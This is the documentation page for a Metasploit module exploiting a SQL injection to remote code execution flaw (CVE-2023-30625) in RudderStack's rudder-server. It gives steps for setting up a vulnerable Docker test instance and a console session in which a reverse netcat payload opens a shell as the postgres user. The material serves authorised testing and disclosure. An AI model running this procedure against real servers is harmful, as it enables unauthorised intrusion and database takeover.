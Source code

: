 ## Vulnerable Application

RudderStack is an open-source Customer Data Platform (CDP) that helps organizations collect,
unify, and route customer data to various destinations.
A Customer Data Platform is a software system that centralizes and manages customer data from multiple sources,
providing a unified view of customer interactions and behaviors.
RudderStack is an independent, stand-alone system with a dependency only on the database (PostgreSQL).
Its backend is written in Go with a rich UI written in React.js.

This Metasploit exploit module targets a SQL injection vulnerability (CVE-2023-30625) in RudderStack's `rudder-server`,
an open-source Customer Data Platform (CDP). The vulnerability affects versions of `rudder-server` before 1.3.0-rc.1.
By exploiting this flaw, an attacker can execute arbitrary SQL commands,
potentially leading to Remote Code Execution (RCE) since the `rudder` role in PostgreSQL has superuser permissions by default.
This issue was discovered and reported by GHSL team member @Kwstubbs (Kevin Stubbings).
Check [here](https://securitylab.github.com/advisories/GHSL-2022-097_rudder-server/) for full disclosure writeup.

## Testing
For installing the vulnerable version follow the steps below,
1. Download [docker-compose.yml](https://raw.githubusercontent.com/rudderlabs/rudder-server/master/rudder-docker.yml) file.
2. Replace `<your_workspace_token>` in this file with your workspace workspace-token
Check [here](https://www.rudderstack.com/docs/get-started/rudderstack-open-source/data-plane-setup/docker/#workspace-token)
for obtaining workspace-token.
3. Edit `rudder-server:latest` version as `rudder-server:1.2.5` inside the docker-compose.yml file.
4. Run `docker compose -f rudder-docker.yml up -d`

After these steps the rudder-server API will be exposed on the `http://localhost:8080/` address.

## Verification Steps

1. msfconsole
2. Do: `use exploit/multi/http/rudder_server_sqli_rce`
3. Do: `set RHOST [IP]`
4. Do: `set RPORT [PORT]`
5. Do: `check`
6. You should get a shell.

## Options

## Scenarios

```
msf6 > use exploit/multi/http/rudder_server_sqli_rce 
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(multi/http/rudder_server_sqli_rce) > set rhosts 192.168.1.20
rhosts => 192.168.1.20
msf6 exploit(multi/http/rudder_server_sqli_rce) > set lhost 192.168.1.10
lhost => 192.168.1.10
msf6 exploit(multi/http/rudder_server_sqli_rce) > set lport 4444
lport => 4444
msf6 exploit(multi/http/rudder_server_sqli_rce) > run

[*] Started reverse TCP handler on 192.168.1.10:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Cannot reliably check exploitability. ForceExploit is enabled, proceeding with exploitation.
[*] Detected rudder version: Unknown
[*] Triggering RCE via crafted SQL query...
id
uid=70(postgres) gid=70(postgres) groups=70(postgres),70(postgres)

```
